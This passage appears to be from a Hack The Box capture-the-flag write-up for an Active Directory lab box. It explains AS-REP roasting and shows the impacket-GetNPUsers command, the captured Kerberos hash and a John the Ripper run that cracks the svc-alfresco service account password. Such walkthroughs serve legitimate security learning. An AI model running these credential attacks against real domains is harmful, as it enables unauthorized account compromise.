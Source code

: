 ```bash

CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local

OU=Security Groups,DC=htb,DC=local
```

## Foothold
``GetNPUsers.py`` from the Impacket suite is used to exploit users with the "Do not require Kerberos pre-authentication" setting enabled. This allows you to request Kerberos TGTs without providing the user's password, and then crack the resulting hash offline. Here's a breakdown of how to use it:  

Understanding the Process

AS-REP Roasting:
- The core technique is known as AS-REP roasting.   
- When a user has "Do not require Kerberos pre-authentication" set, the Kerberos Key Distribution Center (KDC) will issue a TGT without requiring pre-authentication.  
- This TGT contains a hash of the user's password, which can be extracted and cracked.  

GetNPUsers.py:

- This Impacket script automates the process of requesting these TGTs and extracting the hashes.

```bash
   ~ ❯ impacket-GetNPUsers htb.local/svc-alfresco -dc-ip 10.10.10.161 -no-pass                      took   13s at   11:15:15 PM
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:7d83e190f6f4c0e18b9119825b780eee$1c7372e2d3e52457028f1b143d51a115d9face7d6250c144774087196e5bf8a67ddb28af68aaffcb2a3d21b8ef1b9c7acfeddf159a4be34d38e14ac468c391570576873f92b55ae089f4a877090f98506b432d17eedf70481deefec66d269c7fe5518d4a0d3c8d582487d27df660bd577f08cd856c4d7870a5efa488fce91bbe4099dce4cfc1919271dc151dc7e28f558c6b6c8696121989825c07d89ee30ebcc6136564e3b3932fa3a18e3df9571d9a83dc1a0cc1673ced70889cfbb00acc8dab8fd9d2f84e58a7326c9e38ad79499078c1e3f2f70ba4112b97be77594a5d08c9ca333bdad6
```

### Cracking the Hash
The hash obtained from the previous step can be cracked using a tool like Hashcat or John the Ripper. Here's how to do it with John the Ripper:
```bash
 ~ ❯ john john.hash --fork=4 -w=/usr/share/wordlists/rockyou.txt                                       took   6s at   11:27:25 PM
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Node numbers 1-4 of 4 (fork)
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$svc-alfresco@HTB.LOCAL)
4 1g 0:00:00:03 DONE (2025-03-17 23:27) 0.2958g/s 302196p/s 302196c/s 302196C/s s3urkf2m..s3rvice
3 0g 0:00:00:10 DONE (2025-03-17 23:27) 0g/s 329893p/s 329893c/s 329893C/sa6_123
1 0g 0:00:00:10 DONE (2025-03-17 23:27) 0g/s 328985p/s 328985c/s 328985C/s    qaz.ie168
Waiting for 3 children to terminate
2 0g 0:00:00:10 DONE (2025-03-17 23:27) 0g/s 328683p/s 328683c/s 328683C/s   tania.abygurl69
Session completed.
```
The cracked password is `s3rvice`.
